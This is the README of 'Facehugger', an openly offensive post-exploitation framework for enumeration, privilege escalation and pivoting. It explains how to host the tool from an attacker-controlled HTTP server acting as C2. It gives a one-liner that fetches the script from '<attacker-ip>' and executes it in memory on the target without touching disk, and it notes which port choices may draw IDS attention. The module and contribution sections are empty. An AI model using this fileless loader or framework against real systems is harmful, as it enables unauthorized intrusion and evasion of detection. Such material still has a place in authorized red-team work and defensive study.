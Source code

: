 # Facehugger

![free-hugs](https://www.clipartmax.com/png/full/426-4262327_free-hugs-clip-art.png)

A versatile and modular post-exploitation framework. Enumerate, Escalate and pivot while keeping your scripts in ram and off disk.

## Usage

To use Facehugger you fist need to configure your attacking machine to act as a C2 server from which Facehugger can load resources. 
Facehugger works over http (soon to be https) and hence there are a number of ways of setting up the host however the method I recommend is to use the python simple http server module. 
To set this up on your attacking machine if you have sudo rights run:
```
git clone https://github.com/CellEight/Facehugger.git
cd Facehugger
sudo python3 -m http.server 80
```

If you lack sudo rights (for example in a situation in which you are pivoting from a machine on which you only have access to a unprivileged account) simply change port 80 to a port above 1000 (eg. 8080) as this will remove the need for sudo rights although it may be more suspicious to any IDS on the network.

Facehugger currently doesn't implement any kind of readline functionality to allow for command replay so I reccomend running it with rlwrap if it's installed on the target system.
If you have already moved the script onto the target system then run
```
python3 facehugger.py
rlwrap python3 facehugger.py # or with rlwrap
```
If you wish to run Facehugger 100% in memory and what I recommend is to use python to get facehugger.py over the network and execute it directly without touching metal. 
To do this simply run the following on the target machine:
```
python3 -c "import requests; exec(requests.get('http://<attacker-ip>/facehugger.py').text)"
```

## Modules

Currently beyond the base functionality of Face huger a couple of modules have been implemented that allow for more aggressive post exploitation.


## Requirements


## Contribute

Any kind of pull requests are welcome from spelling corrections to entire new modules.
To write your own module just create a child class of 'Module' that implements the following methods:

And has an following fields:
